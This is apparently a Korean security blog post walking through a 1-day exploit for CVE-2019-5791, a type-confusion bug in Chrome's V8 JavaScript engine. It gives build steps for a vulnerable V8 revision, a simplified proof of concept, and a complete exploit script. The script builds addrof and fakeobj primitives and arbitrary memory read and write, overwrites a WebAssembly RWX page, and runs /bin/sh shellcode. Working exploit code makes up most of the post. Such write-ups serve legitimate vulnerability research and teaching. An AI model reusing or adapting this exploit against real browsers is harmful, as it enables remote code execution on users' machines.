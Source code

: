 ```yaml
---
layout: post
title: CVE-2019-5791 1day exploit
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC
- Exploit
- 레퍼런스


## 빌드

```bash
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

## POC

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    		var v2 = 0;
    	    var v3 = 0;
        	if (asdf) { return; } else { return; }
        	(function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    		})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.


- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
  	try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  		var v2 = 0;
  	    var v3 = 0;
      	if (asdf) { return; } else { return; }
      	(function() { print("not trigger") });
  	    (function() {
  				v3 = 'A'.repeat(5000);
  				v2 = [1.1, 1.2, 1.3, 1.4];
  				obj_arr = [{}].slice();
  				float_arr = [1.1, 1.2, 1.3, 1.4];
  			});
  	})()) => 1;
  	f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
  	obj_arr_map = oob[28];
  	float_arr_map = oob[38];
  
  	print("float_arr_map: " + hex(ftoi(float_arr_map)));
  	print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
  	var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
  	function addrof(obj) {
  		obj_arr[0] = obj;
  		oob[28] = float_arr_map;
  		let addr = obj_arr[0];
  		oob[28] = obj_arr_map;
  		return ftoi(addr);
  	}
  
  	function fakeobj(addr) {
  		float_arr[0] = itof(addr);
  		oob[38] = obj_arr_map;
  		let fake = float_arr[0];
  		oob[38] = float_arr_map;
  
  		return fake;
  	}
  
  	function aar(addr) {
      	if (addr % 2n == 0)
  			addr += 1n;
  
      	let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
      	return ftoi(fake[0]);
  	}
  
  	function aaw_init(addr, val) {
      	fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	fake[0] = itof(BigInt(val));
  	}
  
  	var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	var wasm_mod = new WebAssembly.Module(wasm_code);
  	var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	var f = wasm_instance.exports.main;
  	var wasm_i_addr = addrof(wasm_instance);
  	var rwx = aar((wasm_i_addr)+0xf0n);
  
  	print('rwx: ' + hex(rwx));
  
  	var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	var shellcode_buf = new ArrayBuffer(0x100);
  	var dataview = new DataView(shellcode_buf);
  	aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	for (var i=0; i<shellcode.length; i++) {
  		dataview.setUint32(4*i, shellcode[i], true);
  	}
  	f();	
  }
  ```

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
